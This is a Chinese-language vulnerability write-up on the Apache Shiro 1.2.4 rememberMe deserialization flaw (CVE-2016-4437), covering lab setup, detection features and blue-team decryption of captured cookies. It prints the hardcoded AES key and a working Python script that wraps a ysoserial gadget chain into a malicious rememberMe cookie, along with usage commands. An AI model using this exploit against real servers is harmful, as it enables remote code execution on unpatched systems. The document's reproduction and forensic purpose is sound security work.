 # Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)

## 简介

Apache Shiro 是重要的 Java 权限及安全验证框架。

根据[官方issue](https://issues.apache.org/jira/browse/SHIRO-550)

* Retrieve the value of the rememberMe cookie

* CookieRememberMeManager.java

* Base64 decode

* Decrypt using AES

* 加密密钥硬编码

* Java serialization(ObjectInputStream)

CookieRememberMemanager.java 的父类AbstractRememberMeManager存在硬编码：


	/**
     * The following Base64 string was generated by auto-generating an AES Key:
     * <pre>
     * AesCipherService aes = new AesCipherService();
     * byte[] key = aes.generateNewKey().getEncoded();
     * String base64 = Base64.encodeToString(key);
     * </pre>
     * The value of 'base64' was copied-n-pasted here:
     */
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

因为 AES 是对称加密，即加密密钥也同样是解密密钥。

攻击者可以使用有效的rememberMe cookie，然后构造rememberMe来执行Java反序列化攻击，最终导致远程代码执行。

## 复现


使用这个docker复现成功，使用vulhub镜像复现未成功。

```docker pull medicean/vulapps:s_shiro_1```

```docker run -d -p 8080:8080 medicean/vulapps:s_shiro_1```



![](2.png)

apache shiro 这个洞, 登录时需要勾选 ```Remember me``` ， 否则Cookie显示的是 ```rememberMe=deteleMe```

![](1.png)

登陆后看到 Cookie中的rememberMe记录登陆后的加密字符串。

![](3.jpg)

**实际复现无需登陆。**

生成payload的脚本：

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES  # pip3 install pycryptodome
	
	def encode_rememberme(command):
	    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
	    BS   = AES.block_size
	    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
	    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
	    mode =  AES.MODE_CBC
	    iv   =  uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key), mode, iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
	    return base64_ciphertext
	
	if __name__ == '__main__':
	    payload = encode_rememberme(sys.argv[1])
		with open("payload.cookie", "w") as f:
			print("rememberMe={}".format(payload.decode()), file=f) 

用法： 

	python3 shiro_payload.py "touch /tmp/success"

	http get(或head) ip:8080 Cookie:`cat payload.cookie`

## 特征分析

正常登陆成功返回的cookie 中 rememberMe= 后的加密key长度 500多。 恶意key通常较长，有4000多，可以设置阈值长度，再根据告警的资产用脚本打 dns log平台验证。

## 影响版本

Apache Shiro <= 1.2.4

## shiro rememberMe cookie 解密研究

为何要解密加密的rememberMe：在实际的应用中，部署shiro的服务器很可能把shiro关键字 rememberMe 改了，有红队的同学就在现网看见过关键字被改成```rmbMe```，如果改成其他的生僻或常见关键字，蓝队不好取证，不好证明它是shiro攻击。

作为蓝队，拿到攻击payload，不能保证允许在客户服务器进行攻击复现，如果能通过AES解密，还原出序列化的命令，客户是一定认可这个攻击的，便于蓝队取证。

参考代码审计： https://blog.csdn.net/three_feng/article/details/52189559

![](4.png)

如下图，研究shiro加密逻辑发现，AES的iv的length是16的倍数，iv被和已序列化的字节流拼接，base64加密传输给后端，所以rememberMe的base64解码后的前16个字节 就是AES的初始化向量iv。

![](5.png)

根据这个逻辑可以编写解码脚本。 前16位为iv,后面的为序列化的字节流。

![](6.png)

通过在网上采集的 shiro_96key，遍历key，解密，采集语句例如： ```https://github.com/search?p=1&q=setCipherKey%28Base64.decode%28%22&type=Code```

![](8.png)

程序运行效果如下：

![](7.png)

## 参考资料


[创宇404实验室分析Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞](https://paper.seebug.org/shiro-rememberme-1-2-4/)


[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)


[这里收集其他硬编码的秘钥，以及测试其他不同的可以使用的CommonCollections版本](https://cloud.tencent.com/developer/article/1540882)

[Java反序列化入门-Shiro RememberMe 1.2.4远程代码执行漏洞-详细分析](https://xz.aliyun.com/t/6493)

![](9.png)